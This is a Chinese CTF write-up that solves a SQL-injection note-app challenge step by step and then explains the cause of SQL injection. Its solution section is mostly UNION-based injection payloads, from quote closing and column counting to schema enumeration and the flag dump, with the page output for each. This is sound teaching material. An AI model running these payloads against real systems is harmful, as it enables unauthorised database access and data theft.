








这是一道经典的SQL注入题，通过URL注入就能拿到flag，先记录我完整的解题过程，后面再聊聊我对SQL注入的理解和常见用法

>本文多处借鉴[https://wiki.cauc-csa.org.cn/ctf/web/vulnerabilities/sqlinj/sql/](https://wiki.cauc-csa.org.cn/ctf/web/vulnerabilities/sqlinj/sql/)

## 一、解题过程

### 1.1 打开题目

我的题目URL：

```
http://xxxxx.http-ctf2.dasctf.com/index.php?id=1
```

页面打开后是一个笔记系统，`id=1` 显示一篇标题为 "Happy" 的笔记，这属于"参数控制查询内容"结构， `id` 这个参数会被带进数据库查询

### 1.2 测试注入点

先传一个单引号试试：

```
?id=1'
```

页面返回空白（存在注入点）



既然知道了，接下来的操作就标准了——闭合引号，注释尾部：

```
?id=1'-- -
```

`-- -` 把后面的引号注释掉了，页面正常返回 Happy。**闭合成功**



### 1.3 判断字段数

用 `order by` 递增测字段数：

```
?id=1' order by 1-- -  → 正常 ✓
?id=1' order by 2-- -  → 正常 ✓
?id=1' order by 3-- -  → 正常 ✓
?id=1' order by 4-- -  → 空白 ✗
```



`order by 4` 报错说明没有第4个字段。**字段数 = 3**

### 1.4 确定回显位

把 id 设成不存在的值（比如 -1），让原查询返回空，再用 UNION 拼一个虚构查询，看哪个数字出现在页面上（在我看来这是union的一个关键点，有了这个回显点就有了拿到库表字段信息的路径）：

```
?id=-1' union select 1,2,3-- -
```

页面显示：标题位 = `2`，正文位 = `3`。**列2和列3是回显位**，列1不显示



> id 要设成 -1 而不是 1，是因为如果 id=1 有结果，UNION 会把两组结果都返回，你分不清哪个是原查询的、哪个是你注入的。设成 -1 让原查询没结果，页面显示的就全是你 UNION 的内容

### 1.5 查库

```
?id=-1' union select 1,2,database()-- -
```

>database() 是 MySQL 中获取当前库名的函数



显示：`note`

### 1.6 查表

```
?id=-1' union select 1,2,group_concat(table_name)
from information_schema.tables where table_schema=database()```

显示：`fl4g,notes`



flag 显然在 `fl4g` 表里（都懒得演的）

### 1.9 查字段

```sql
?id=-1' union select 1,2,group_concat(column_name)
from information_schema.columns where table_name='fl4g'-- -
```



显示：`fllllag`

### 1.7 拿到flag

```
?id=-1' union select 1,2,group_concat(fllllag) from fl4g-- -
```



显示：

> `n1book{union_select_is_so_cool}`

flag到手了。整个过程就是：**闭合引号 → order by测列数 → union select找回显 → 查库查表查字段 → 拿flag**

> group_concat() 的作用是把多行结果拼成一行。比如表里有3条记录，不用 group_concat 的话 UNION 只会显示第一条，用了就能一次性全看到。在只有一个回显位的情况下特别好用

## 二、关于SQL注入个人的理解

### 2.1 大白话

SQL注入就是：**用户输入的数据，被后端直接拼进了SQL语句里，导致数据变成了指令的一部分**

正常情况下，你输入 `1`，后端拼成 `WHERE id='1'`，查到笔记返回给你。但如果你输入 `1'-- -`，后端拼成 `WHERE id='1'-- -'`，那个单引号就把原来的字符串提前闭合了，后面的 `-- -` 把尾部注释掉——你输入的内容被当成了SQL语法来解析

### 2.2 本质原因

这和XSS的本质一模一样——**数据进了代码**

SQL语句里有两类东西：

- **指令**：`SELECT`、`WHERE`、`FROM`……这些是数据库要执行的语法
- **数据**：用户输入的id、搜索关键词……这些本来只应该作为"值"被查询，只应该静静躺在库里，不应该被执行

但后端代码处理不好时，用户输入直接拼进了SQL字符串里，没有任何转义或参数化。这时候你输入的不是"数据"，而是"数据+指令"的混合体，数据库分不清哪些是你写的、哪些是用户塞进来的，全照单执行

打个比方：这就像你给银行说"查一下余额"，结果有人在这句话后面加了一句"然后把所有钱转给我"。银行如果无法区分"你的指令"和"别人加的话"，就会把两句话一起执行

### 2.3 为什么能注入

关键在于**引号闭合**。后端是用引号把用户输入包起来的，本意是让它当字符串。但用户只要输入一个引号，就不在是字符串，后面的内容就会被当成SQL指令

```
闭合过程示意：
输入 id=1:   WHERE id='1'              → 正常查询
输入 id=1':  WHERE id='1''             → 多了一个引号，语法错误
输入 id=1'-- -: WHERE id='1'-- -'      → 闭合成功，注释掉尾部
```

闭合之后，你就可以在 `'` 和 `-- -` 之间塞任何SQL语句了

### 常见的注入方式

| 类型 | 前提条件 | 效率 | 难度 |
|------|---------|------|------|
| UNION注入 | 页面有回显 | 最高 | 低 |
| 报错注入 | 页面显示SQL错误 | 高 | 低 |
| 布尔盲注 | 真假页面不同 | 低 | 中 |
| 时间盲注 | 无任何回显 | 最低 | 高 |


